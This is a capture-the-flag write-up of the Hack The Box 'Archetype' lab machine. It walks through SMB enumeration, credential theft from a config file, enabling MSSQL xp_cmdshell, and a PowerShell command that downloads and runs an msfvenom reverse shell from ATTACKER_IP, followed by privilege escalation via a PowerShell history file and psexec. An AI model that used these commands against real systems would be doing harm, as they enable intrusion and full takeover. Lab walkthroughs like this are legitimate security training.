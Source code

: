 ```yaml
---
title: "[Starting Point] Tier 2: Archetype"
tags:
  - Very Easy
  - Windows
  - Samba
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  |  10.129.82.74 |  |

---

### [ Which TCP port is hosting a database server? ]

Let's run a basic nmap scan on the target machine. As always, we load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.74
```

![screenshot1](../assets/images/archetype/screenshot1.png)

From the results, we can see that 4 ports are open: **135 (RPC)**, **139 (SMB)**, **445 (SMB)** and **1433 (MSSQL server)**

The database server is being hosted on port **1433**.

---

### [ What is the name of the non-Administrative share available over SMB? ]

Let's use `smbclient` to list out all of the shares on the SMB server that we can access:

```
smbclient -L 10.129.82.74
```

![screenshot2](../assets/images/archetype/screenshot2.png)

There is a non-administrative share of interest: **backups**

---

### [ What is the password identified in the file on the SMB share? ]

Let's login into the **backups** share:

```
smbclient //10.129.82.74/backups
```

![screenshot3](../assets/images/archetype/screenshot3.png)

There is a file called **prod.dtsConfig**. We can download it onto our local machine using the `get` command.

**Contents of prod.dtsConfig:**

![screenshot4](../assets/images/archetype/screenshot4.png)

*(A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages)*

We can identify a password in the config file:

> M3g4c0rp123

---

### [ What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? ]

mssqlclient.py

---

### [ What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? ]

After doing some research online, I came across this useful [information](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15):

---

*xp_cmdshell spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text.*

---

Extended stored procedure: **xp_cmdshell**

---

### [ What script can be used in order to search possible paths to escalate privileges on Windows hosts? ]

[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---

### [ What file contains the administrator's password? ]

Let's log into the MSSQL server using the **mssqlclient.py** script from impacket.

*(Steps on how to do so can be found from [here](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))*

From the config file earlier, we got the following set of credentials: 

> sql_svc : M3g4c0rp123

Also, from our nmap scan, we also know that the domain name is:

> ARCHETYPE

With that, we can log into the MSSQL server:

```
python3 mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.82.74
```

![screenshot5](../assets/images/archetype/screenshot5.png)

Now let's try to enable **xp_cmdshell**. If enabled, we will be able to run shell commands from within the SQL CLI.

```
enable_xp_cmdshell
```

![screenshot6](../assets/images/archetype/screenshot6.png)

Now that xp_cmdshell is enabled, let's try running a basic `whoami` command:

```
xp_cmdshell whoami
```

![screenshot7](../assets/images/archetype/screenshot7.png)

Nice, it works!

Now let's try to open a reverse shell into the machine. First, we have to generate a reverse shell payload for Windows. We can use  `msfvenom` to do so:

```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

Once we have our reverse shell payload, we can run the following command in the MSSQL CLI:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://ATTACKER_IP:8000/shell.exe -outfile shell.exe; .\shell.exe"
```

This command does a few things:

1. It uses powershell and the `-c` option to run the subsequent commands.
2. It first navigates to `C:\Users\sql_svc\Downloads` as that is a directory which is writeable by us.
3. It then uses `wget` to download our generated reverse shell payload from our local machine. Make sure to have a HTTP server up and running first.
4. Finally, it executes the reverse shell script, thus opening up the reverse shell.


With a netcat listener up and running, we soon gain access into the target machine via the reverse shell:

![screenshot8](../assets/images/archetype/screenshot8.png)

Now that we're in, let's download WinPEAS onto the target machine (make sure to have a HTTP server running).

```
powershell -c wget http://ATTACKER_IP:8000/winPEASx86.exe -outfile winpeas.exe
```

Looking through the results of the WinPEAS scan, I noticed an interesting file:

![screenshot9](../assets/images/archetype/screenshot9.png)

Looks like there is a PowerShell history file called **ConsoleHost_history.txt**:

![screenshot10](../assets/images/archetype/screenshot10.png)

This file contains the administrator's password!

---

### [ Submit user flag ]

The administrator's password is:

> MEGACORP_4dm1n!!

Let's now use the **psexec.py** script from impacket to open a connection to the target machine using our newfound credentials:

```
python3 psexec.py administrator@10.129.82.74
```

![screenshot11](../assets/images/archetype/screenshot11.png)

And just like that, we're now in the machine as the administrator!

We can grab the **user flag** from the desktop of the **sql_svc** user:

![screenshot12](../assets/images/archetype/screenshot12.png)

---

### [ Submit root flag ]

The **root flag** can be found in the desktop of the **Administrator** user:

![screenshot13](../assets/images/archetype/screenshot13.png)
